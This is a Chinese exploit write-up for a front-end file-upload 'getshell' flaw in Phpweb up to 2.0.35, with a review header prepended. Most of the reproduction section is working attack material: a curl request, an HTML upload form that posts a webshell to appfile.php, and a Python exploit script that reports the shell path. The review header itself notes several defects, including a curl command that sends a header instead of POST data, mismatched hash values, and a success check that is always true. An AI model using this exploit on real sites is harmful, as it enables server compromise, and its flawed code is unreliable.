




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：post.php公开返回appcode、appfile校验可伪造；上传目录PHP执行

- **结论使用边界（1）**：curl -H act=appcode是header不是文中要求POST字段，方法与描述错。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：展示初值/终值疑非32位且HTML m值与上方终值不同，链中校验值无法对应。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Python if{gs.text==OK}创建非空集合总为真，所有响应都会报getshell成功，明确检测逻辑错误。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：脚本依赖headers.txt/datas.txt外部包且固定mstir.php，无独立执行验证；称OK成功只上传不等同RCE。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Phpweb 前台getshell

一、漏洞简介
------------

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php
/base/appborder.php

二、漏洞影响
------------

Phpweb\<=2.0.35

三、复现过程
------------

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

    curl "http://website/base/post.php" -H "act=appcode"

    ac34c64cdb405eff881efc5476a64761 ##这个就是初始值

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!

    e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!

3.Getsehll exp:

    <html>
    <body>
    <form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
    <label for="file">Filename:</label>
    <input type="file" name="file" id="file" />
    <input type="text" name="t" value="a" />
    <input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
    <input type="text" name="act" value="upload" />
    <input type="text" name="r_size" value="14" />
     
    <input type="submit" name="submit" value="getshell" />
    </form>
    </body>
    </html>

然后...Getshell!

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

[http://www.0-sec.org/effect/source/bg/shell名称.php](http://www.0-sec.org/effect/source/bg/shell名称.php)

### 工具编写

Python exp\[Python3\]:

    # -*- coding: UTF-8 -*- #
    import os
    import requests
    import hashlib

    bdlj = os.getcwd()
    headers = open(bdlj+"\headers.txt",'r')
    headerss = headers.read()
    print('\b')

    ur = input("请输入目标网址:")
    requrl =  ur + '/base/post.php'
    reqdata = {"act":"appcode"}
    r = requests.post(requrl,data=reqdata)
    cz=r.text[2:34]
    print ('初值:' + cz)

    cz=r.text[2:34]+"a"
    m = hashlib.md5()
    b = cz.encode(encoding='utf-8')
    m.update(b)
    zz = m.hexdigest()
    print ('终值:' + zz)

    infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
    outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
    for line in infile:
          outfile.write(line.replace('156as1f56safasfasfa', zz))
    infile.close()
    outfile.close()
    datas = open(bdlj+"\datah.txt",'r')
    datass = datas.read()

    gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
    gs.encoding = 'utf-8'
    print (gs.text)

    if {gs.text == "OK"}:
        print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
    else:
        print ("Getsehll失败!")

整包下载地址:<https://github.com/ianxtianxt/Phpweb-Getshell-py>

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

参考链接
--------

> <https://m4tir.github.io/Phpweb-Reception-Getshell>
